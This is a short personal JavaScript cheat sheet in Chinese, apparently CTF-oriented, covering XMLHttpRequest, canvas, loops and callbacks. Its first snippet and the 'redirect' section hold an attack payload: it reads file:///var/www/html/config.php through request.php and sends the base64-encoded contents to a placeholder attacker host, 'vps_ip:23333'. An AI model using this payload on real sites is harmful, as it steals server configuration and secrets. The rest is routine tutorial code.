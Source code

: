 # javascript

## 访问网页

### XMLHttpRequest

```javascript
xmlhttp=new XMLHttpRequest();
xmlhttp.onreadystatechange=function()
{
    if (xmlhttp.readyState==4 && xmlhttp.status==200)
    {
        document.location='http://vps_ip:23333/?'+btoa(xmlhttp.responseText);
    }
}
xmlhttp.open("POST","request.php",true);
xmlhttp.setRequestHeader("Content-type","application/x-www-form-urlencoded");
xmlhttp.send("url=file:///var/www/html/config.php");
```



#### 带着cookie访问

`XMLHttpRequest.withCredentials=true;`



### fetch





## 重定向

` document.location='http://vps_ip:23333/?'+btoa(xmlhttp.responseText);`



## 手册

 https://developer.mozilla.org/ 

 https://www.w3schools.com/ 



## 循环

```javascript
var img = new SimpleImage(200, 200);
for(var pixel of img.values())
{//pixel是img.values()的引用
    pixel.setRed(255);
    pixel.setGreen(255);
    pixel.setBlue(0);
}
print(img);
```





## canvas操作

```javascript
var canvas=document.getElementById("show2");
var context = canvas.getContext('2d');
#init
context.clearRect(0, 0, canvas.width, canvas.height);
#clear canvas
context.font = "30px Arial";
context.fillText("Hello World", 10, 50);
#draw a text


context.fillStyle = "red";
context.fillRect(10, 10, 150, 80);
#draw rectangle
```



## 变量赋值(注意点)

当变量是数字和字符串的时候,会生成一个拷贝,再赋值给目标

但如果对象是数组和对象时,这会将引用赋值给目标,此时修改新变量也会影响到旧变量



## 向 无参callback function 传参

```javascript
function createCallback(x, m) {
    return function() {
        /* Do whatever */
    };
}
xhttp.onreadystatechange = (function(x, m) {
    return function() {
        /* Do stuff */
    }
})(xhttp, msg);
```





## 在浏览器导入npm的包

